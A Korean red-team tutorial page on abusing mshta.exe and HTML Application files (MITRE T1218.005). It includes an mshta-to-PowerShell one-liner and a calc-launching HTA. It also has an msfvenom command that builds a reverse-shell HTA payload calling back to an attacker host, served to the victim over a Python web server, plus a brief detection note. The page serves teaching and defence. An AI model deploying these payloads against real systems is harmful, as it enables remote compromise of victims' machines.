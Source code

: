 ```yaml
---
description: T1218.005
---
```


# HTA

## HTA란?

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다.HTA 확장자 파일은 Mshta.exe 윈도우 바이너리로 실행되며 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인(?!?) 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다.

![](<../../obsidian\_resources/Pasted image 20230501172222.png>)

### 보안적인 측면

일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다 끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다라는 점을 이해해주길 바란다.

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

{% embed url="https://attack.mitre.org/techniques/T1218/005/" %}

일단 시작하기 앞서, 아래와 같이 mshta -> VBScript-> powershell.exe를 통해, "Hello GROOT!" 아웃풋되는지 확인해보자.

```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

![](<../../obsidian\_resources/Pasted image 20230501210226.png>)

### 실습

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을 수 있다. 수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다:

* LNK -> CMD -> Powershell -> RAT
* ZIP -> Password protected PDF + "password.lnk" -> RAT
* DOCx -> LNK -> remote HTA -> Powershell -> RAT
* 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

### 기본 HTA 스크립트 예제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.&#x20;

### Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자. shell\_reverse\_tcp HTA 페이로드를 만들어 준다.

* LHOST: 칼리 로컬 호스트 로컬 IP
* LPORT: Listener 포트

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.

<figure><img src="../../obsidian_resources/Pasted image 20230501175738.png" alt=""><figcaption></figcaption></figure>

브라우저에서 http://192.168.137\[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](<../../obsidian\_resources/Pasted image 20230501175551.png>)

### 대응 방안

* CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서 이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.

### 레퍼런스

{% embed url="https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files" %}

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}
